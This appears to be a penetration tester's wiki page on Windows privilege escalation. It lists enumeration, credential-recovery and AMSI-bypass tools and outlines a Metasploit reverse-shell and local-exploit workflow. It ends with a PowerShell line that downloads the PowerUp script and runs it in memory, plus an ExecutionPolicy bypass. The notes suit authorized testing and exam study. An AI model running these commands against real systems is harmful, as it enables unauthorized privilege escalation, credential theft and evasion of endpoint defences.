 # Windows Privilege Escalation Scripts And Tools

Before tooling - consider the machine Situation that you must be aware of. It is always best to understand and map out the machine for yourself and assess in the grand scheme of what objective are, is it worth escalation on this machine - see [[Windows-Privilege-Escalation-Enumeration]] and coresponding [[Windows-Privilege-Escalation-Vectors]].

Always compile tools from source if using them in a client environment.
- [JAWS](https://github.com/411Hall/JAWS) - *"Just Another Windows (Enum) Script"*
- [LaZagne](https://github.com/AlessandroZ/LaZagne) - *"Credentials recovery project"*
- [[Powerview-Cheatsheet]]
- [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) - [[PowerSploit-Helpsheet]] - *"PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."*
- [Seatbelt](https://github.com/GhostPack/Seatbelt) - *"Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives."*
- [SessionGopher](https://github.com/Arvanaghi/SessionGopher) - *"is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally."*
- [SharpUp](https://github.com/GhostPack/SharpUp) - *"SharpUp is a C# port of various PowerUp functionality"*
- [Snaffer](https://github.com/SnaffCon/Snaffler) - finds readable files shares and uses ML-trained algorithm to display desirable files
- [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) - See the [[Sysinternals]]
- [Watson](https://github.com/rasta-mouse/Watson) - *"Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities"*
- [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) - *"Windows Exploit Suggester - Next Generation"*
	- see [[WESNG-Helpsheet]] 
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) - *"Windows local Privilege Escalation Awesome Script (C#.exe and .bat)"*
	- [All checks done are on HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) 

Post exploitation tools are integrated into C2s and are sometime actively maintained consider copying one from one - see [[C2-Matrix]] 

[[Metasploit]] modules:
```bash
msfconsole -> use multi/handler -> set payload - >set lhost -> run
# msfvenom your tailoured shell for targeting architecture professionalism
# copy shell to Windows box and run it
# On attack box
run post/multi/recon/local_exploit_suggester
# For example 
# identify exploit/windows/local/ms16_014_wmi_recv_notif
set session [sessionnumber]
set lport [portnumber]
run
```

Scripts and tools
```powershell
https://github.com/carlospolop/PEASS-ng # Is OSCP compliant as of 2022
https://github.com/Tib3rius/windowsprivchecker
https://github.com/gladiatx0r/Powerless.git # For OSCP & Legacy Windows System
https://github.com/411Hall/JAWS	# jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) *"enables administrators to obtain security information about files, registry keys, and services, and transfer this information from user to user, from local or global group to group, and from domain to domain."* - Stealthy and reliable.
SysInternals will always be your friend - [[Sysinternals]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)
[[Impacket-Cheatsheet]]
[[Seatbelt-Helpsheet]]

[Empire](https://github.com/BC-SECURITY/Empire) is C2 covered here: [[Empire]] and [[Starkiller]]
For [wesng](https://github.com/bitsadmin/wesng) check usage for [[WESNG-Helpsheet]]
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a github repos that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 
The below will load the PowerUp script into memory of a powershell shell, then use [[PowerSploit-Helpsheet]], from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
powershell.exe -ExecutionPolicy Bypass -File .\
```

